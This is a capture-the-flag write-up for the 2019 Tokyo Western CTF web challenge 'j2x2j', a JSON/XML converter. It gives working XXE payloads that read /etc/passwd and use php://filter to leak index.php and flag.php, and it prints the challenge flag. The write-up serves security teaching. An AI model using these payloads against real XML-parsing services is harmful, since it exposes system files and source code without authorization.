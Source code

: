 # Tokyo Western CTF - 2019

## Web / 59 - j2x2j

> http://j2x2j.chal.ctf.westerns.tokyo/

### Solution

By @FI(https://github.com/92b2f2)

As the title "JSON <-> XML Converter" says, it is a simple json to xml and xml to json converter.
![](https://i.imgur.com/XJKllxI.png)
So I guess it is a XXE and I test it.
```
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root>
```
![](https://i.imgur.com/gxkPtYI.png)
XXE confirmed!

Let's get the source first using php filter.
```
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'php://filter/convert.base64-encode/resource=index.php'>]><root>&test;</root>
```
We can see the flag is at flag.php after decoding it with base64.
```
<?php
include 'flag.php';
...
```
Finally we can get the flag.

```
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'php://filter/convert.base64-encode/resource=flag.php'>]><root>&test;</root>
```
After decoding it.
```
<?php
$flag = 'TWCTF{t1ny_XXE_st1ll_ex1sts_everywhere}';
```

### Flag
`TWCTF{t1ny_XXE_st1ll_ex1sts_everywhere}`
